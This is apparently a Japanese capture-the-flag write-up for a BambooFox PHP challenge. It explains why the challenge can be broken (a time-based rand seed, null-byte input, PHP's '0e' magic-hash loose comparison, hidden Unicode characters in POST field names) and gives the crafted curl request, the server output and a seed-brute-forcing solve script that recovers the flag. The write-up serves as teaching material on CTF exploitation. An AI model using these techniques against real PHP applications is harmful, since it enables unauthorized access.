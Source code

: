 ```php
    # Our secret verify machine
    if ($fllllllag === $_GET['is_this_flag？']){
        echo 'Here is your flag haha: ' . $fllllllag;
    }
}else{
    # More random sleep for performance improve
    sleep(random_int(1,2));
    # Decided to quit your job?    
    die('bye!');
}
```

読みにくいですが、

- `srand(20191231 + 20200101 + time());` と、`rand` については乱数シードが推測可能 (`random_int(1,128)` は推測不可能)
- `$final` の各文字については、`rand() ^ $array2[rand() % count($array2)]` は `rand()` の返り値が推測できるのでわかり、`$array3[rand() % count($array3)] * random_int(1,128))` も `$array3` は `str_split($_GET['KEY'], 1)` とユーザ入力由来なので null 文字を入力すれば OK。これで元の文字が推測可能
- `$_POST['​😂'] == md5($_POST['🤣​'])` では PHP の `0 == '0e123'` となる仕様を使って、いわゆる Magic Hash が使える (なお、最初の `isset($_POST['😂'])` と `isset($_POST['🤣'])` ではそれぞれ U+1F602 と U+1F923 のみなのに対して、ここではそれぞれ U+200B が前、U+DD23 が後ろについていることに注意)

という点さえわかれば `$final` の元の文字列が復元できます。

```
$ php -r "echo time();"; echo; curl -X POST "http://(省略)/?KEY=%00" -d "%F0%9F%98%82&%F0%9F%A4%A3&%E2%80%8B%F0%9F%98%82=0&%F0%9F%A4%A3%E2%80%8B=240610708"
1577837477
︙
1686891512 1291944467 293846636 686937786 559546983 1191396174 776294258 492845660 485578303 1747125449 1655430137 55804001 333446820 1700451417 1170936616 267757321 764365832 1298591808 1029433726 446934415 788760354 1360338466 724455005 1214062018 1681176396 1982275396 293585629 2024032342 444621824 1077017345 875226576 669706981 1432605123 2032716097 614675097
```

```
$ cat solve.php
<?php
$t = 1577837477;
$encrypted = [1686891512, 1291944467, 293846636, 686937786, 559546983, 1191396174, 776294258, 492845660, 485578303, 1747125449, 1655430137, 55804001, 333446820, 1700451417, 1170936616, 267757321, 764365832, 1298591808, 1029433726, 446934415, 788760354, 1360338466, 724455005, 1214062018, 1681176396, 1982275396, 293585629, 2024032342, 444621824, 1077017345, 875226576, 669706981, 1432605123, 2032716097, 614675097];
for ($i = $t - 100; $i < $t + 100; $i++) {
  srand(20191231 + 20200101 + $i);
  $res = '';
  foreach ($encrypted as $v) {
    $x = $v ^ rand();
    rand(); rand();
    if ($x < 0x20 or $x > 0x7e) {
      break;
    }
    $res .= chr($x);
  }
  if (strlen($res) > 0) {
    echo $i . "\n";
    var_dump($res);
  }
}
$ php solve.php
1577837477
string(35) "BAMBOOFOX{WHY_THERE_ARE_UNICODE_LA}"
```
